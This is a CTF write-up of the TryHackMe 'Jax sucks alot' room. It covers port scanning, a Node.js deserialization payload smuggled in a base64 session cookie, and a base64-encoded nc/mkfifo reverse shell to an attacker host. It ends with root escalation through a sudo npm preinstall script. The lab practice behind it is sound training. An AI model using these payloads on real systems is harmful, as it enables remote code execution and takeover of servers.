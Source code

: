 ```yaml
---
title: "Jax sucks alot............."
date: 2025-02-16
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF Jax sucks alot
categories: [Tryhackme, Easy]
tags: [linux, node, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Jax sucks alot.............</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>In JavaScript everything is a terrible mistake.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/jason">https://tryhackme.com/room/jason</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Jax sucks alot..............  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.26.215
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-11 05:33 EST
  Nmap scan report for 10.10.26.215
  Host is up (0.058s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http

  Nmap done: 1 IP address (1 host up) scanned in 21.24 seconds
```

From here I proceeded the analysis with port 80.

## Port 80 Analysis

The website displays an input field for subscribing to a newsletter. 

![Newsletter Subscription Page](/assets/img/tryhackme/Jason/thm_jason_1.jpg)

Upon inspecting the source code, I noticed that the input was converted and stored as a cookie. This cookie was added as a session cookie to every request. I checked the request, and it appeared to be a `base64` encoded string:

![Cookie inside request](/assets/img/tryhackme/Jason/thm_jason_2.jpg)

```bash
$ echo "eyJlbWFpbCI6InRlc3RAdGVzdC5kZSJ9" | base64 -d                                        
{"email":"test@test.de"} 
```

After some research, I came across information about Node.js deserialization attacks. Before attempting to get a reverse shell, I created a small proof of concept:
```bash
<@base64>{"email":"_$$ND_FUNC$$_function(){\n \t require('child_process').exec('ping -c 1 [attackerip]',function(error, stdout, stderr) { console.log(stdout) });\n }()"}</@base64>
```

This payload should send me an `icmp` packet upon execution:
```bash
$ sudo tcpdump -i tun0 icmp                     
  tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
  listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
  13:19:05.578402 IP 10.10.119.248 > [attackerip]: ICMP echo request, id 1, seq 1, length 64
  13:19:05.578413 IP [attackerip] > 10.10.119.248: ICMP echo reply, id 1, seq 1, length 64
```

Great! Now we can use this to gain a reverse shell. I started `penelope` and pressed option `p` to retrieve predefined payloads. By coping the penelope payload into the previous NodeJS deserialization attack, I was able to obtain a reverse shell:
```bash
@base64>{"email":"_$$ND_FUNC$$_function(){\n \t require('child_process').exec('echo -n cm0gL3RtcC9fO21rZmlmbyAvdG1wL187Y2F0IC90bXAvX3xzaCAyPiYxfG5jIGF0dGFja2VyaXAgNDQ0NCA+L3RtcC9fICYK|base64 -d|sh',function(error, stdout, stderr) { console.log(stdout) })
```

After receiving the reverse shell, I was able to retrieve the user flag::
```bash
dylan@jason:~$ cd /home/dylan/
dylan@jason:~$ cat user.txt 
	[removed]
```

## Privilege Escalation root

Next, I ran `sudo -l` and got the following output:
```bash
dylan@jason:~$ sudo -l
  Matching Defaults entries for dylan on jason:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User dylan may run the following commands on jason:
      (ALL) NOPASSWD: /usr/bin/npm *
```

A quick search on <a href="https://gtfobins.github.io/gtfobins/npm/#sudo">gftobins</a> provided all the information I needed:
```bash
dylan@jason:~$ TF=$(mktemp -d)
dylan@jason:~$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
dylan@jason:~$ sudo npm -C $TF --unsafe-perm i

> @ preinstall /tmp/tmp.oKtTgZ2Zvd
> /bin/sh

# whoami
	root
# cat /root/root.txt
	[removed]
```

solved! :)
